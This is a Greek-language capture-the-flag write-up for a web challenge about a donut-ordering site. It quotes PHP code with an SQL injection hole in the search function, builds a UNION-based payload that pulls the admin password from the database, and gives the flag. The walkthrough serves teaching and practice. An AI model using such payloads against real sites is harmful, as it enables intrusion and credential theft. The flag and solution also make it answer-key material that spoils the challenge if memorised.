



# Chocolate Injection Write-Up

| Δοκιμασία | Chocolate Injection |
| :-------- | :----------------- |
| Δυσκολία  | Μέτρια             |
| Κατηγορία | Παγκόσμιος Ιστός (Web Exploitation) |
| Λύσεις    | 21                 |
| Πόντοι    | 100                |

## Περιγραφή Δοκιμασίας

Έχω μια λιγούρα... ξέρεις κανένα κατάστημα με γλυκά;


## Ανάλυση Δοκιμασίας

Η δοκιμασία μας δίνει μια ιστοσελίδα για ένα website από το οποίο μπορούμε να παραγγείλουμε donuts. Μέσα από την ιστοσελίδα μπορούμε να βάλουμε donuts στο καλάθι μας, να δούμε το κόστος της παραγγελίας μας και να την στείλουμε. Επιπλέον υπάρχει και μια σελίδα για σύνδεση των διαχειριστών.


## Επίλυση


### Εξερεύνηση κώδικα
Ψάχνοντας τον κώδικα της εφαρμογής βλέπουμε πως μπορούμε να πάρουμε την σημαία από την διαχειριστική σελίδα αν υπάρχουν 4 παραγγελίες.

Παρακάτω φαίνεται ο σχετικός κώδικας από το αρχείο `html/admin.php`:
```html+php
<div class="text-end"><?= (count($orders) == 1 ? 'There is ' . count($orders) . ' order to be completed.' : (count($orders) == 4 ? 'There are ' . file_get_contents('../flag.txt') . ' orders to be completed.' : 'There are ' . count($orders) . ' orders to be completed.')); ?></div>
</div>
```

Για να μπορέσουμε όμως να πάρουμε πρόσβαση στην σελίδα διαχείρισης, πρέπει να πρώτα να βρούμε τα στοιχεία σύνδεσης κάποιου διαχειριστή. Από τον κώδικα της ιστοσελίδας, βλέπουμε πως στην βάση δεδομένων δημιουργείτε ένας λογαριασμός διαχειριστή με username `admin` και τυχαίο κωδικό τον οποίο δεν έχουμε.

Παρακάτω φαίνεται ο σχετικός κώδικας από το αρχείο `html/includes/database.php` (o κωδικός δημιουργείται τυχαία από τον κώδικα του `config/init.sh`):
```php
$app_db->exec('CREATE TABLE IF NOT EXISTS admins (id INTEGER PRIMARY KEY, username TEXT, password TEXT)');
$app_db->exec('INSERT INTO admins (username, password) VALUES ("admin", "{{RANDOM-ADMIN-PASSWORD}}")');
```

Βάση των στοιχείων που έχουμε, φαίνεται πως θα πρέπει ή να παρακάμψουμε την αυθεντικοποίηση του διαχειριστή, ή να βρούμε τον κωδικό του. Με μια πρώτη ματιά, ο κώδικας αυθεντικοποίησης φαίνεται να μην έχει κάποια ευπάθεια, ενώ παράλληλα παρατηρούμε πως ο τυχαίος κωδικός είναι πολύ μεγάλος για να τον μαντέψουμε ή να τον κάνουμε brute force. 

Βάζουμε λοιπόν σαν στόχο να καταφέρουμε να πάρουμε με κάποιον τρόπο τον κωδικό από την βάση. 

### Εύρεση και εκμετάλλευση ευπαθειών

Ψάχνοντας τον κώδικα βρίσκουμε πως στην αναζήτηση της σελίδα που επιλέγουμε donuts υπάρχει SQL Injection (SQLi) ευπάθεια την οποία μπορούμε να εκμεταλλευτούμε.

Παρακάτω φαίνεται ο σχετικός κώδικας με την ευπάθεια SQL Injection (SQLi) από το αρχείο `html/admin.php`:
```php
function getDonuts($searchQuery = '') {
	global $app_db;
	$query = "SELECT * FROM donuts";
	
	// Add search filter if a search query is provided
	if (!empty($searchQuery)) {
		$query .= " WHERE name LIKE '%$searchQuery%'"; // <-- SQLi vulnerability here
	}
	$query .= " ORDER BY name DESC";

	$result = $app_db->query($query);

	$donuts = [];
	while ($row = $result->fetchArray()) {
		$donuts[] = $row;
	}

	return $donuts;
}
```

Βάζοντας το κείμενό μας για την αναζήτηση, κατασκευάζετε το παρακάτω SQL query:
```SQL
SELECT * FROM donuts WHERE name LIKE '%Η ΑΝΑΖΗΤΗΣΗ ΜΑΣ ΜΠΑΙΝΕΙ ΕΔΩ%' ORDER BY name DESC
```

Μπορούμε λοιπόν να βάλουμε δικό μας SQL κώδικα κλείνοντας την αναζήτηση με την χρήση του `LIKE` και κάνοντας ένωση (`UNION`) της επιλογής από τον πίνακα `donuts` με μια επιλογή από τον πίνακα `admins`.

Για να πάρουμε τα στοιχεία των διαχειριστών θα κάναμε ένα SQL query για να τα επιλέξουμε από την βάση, το οποίο θα μας γύρναγε ένα πίνακα με 2 στήλες:
```SQL
SELECT username, password FROM admins;
```

Στο συγκεκριμένο όμως query στο οποίο έχουμε την ευπάθεια, έχουμε 4ις στήλες:
```SQL
SELECT * FROM donuts
```
Το οποίο είναι ίδιο με το:
```SQL
SELECT id, name, price, image FROM donuts
```

Έτσι θα πρέπει να τροποποιήσουμε την επιλογή μας έτσι ώστε να γυρίζει τις ίδιες στήλες με ψεύτικες τιμές όπου χρειάζεται:
```SQL
SELECT 0 as id, password as name, 1.50 as price, username as image FROM admins
```

Βάζοντας το query αυτό στο αρχικό SQL query που έχουμε και κάνοντας αλλαγές για να μπορεί να συνδεθεί, καταλήγουμε στο:
```SQL
SELECT * FROM donuts WHERE name LIKE '%' UNION SELECT 0 as id, password as name, 1.50 as price, username as image FROM admins --%' ORDER BY name DESC
```

Οπότε το payload μας το οποίο θα βάλουμε στο input της αναζήτησης θα είναι:
```
' UNION SELECT 0 as id, password as name, 1.50 as price, username as image FROM admins --
```

Αφού στείλουμε το payload, παίρνουμε τον κωδικό του admin από το όνομα του donut:


## Ανάκτηση σημαίας

Αφού έχουμε τον κωδικό, μπορούμε να συνδεθούμε στην διαχειριστική σελίδα.


Στην συνέχεια, κάνοντας 4 παραγγελίες, εμφανίζεται η σημαία:



## Σημαία

```
FLAG{Nom-n0m-I-lov3-doNuTs-w1TH-mY-SQL1!}
```
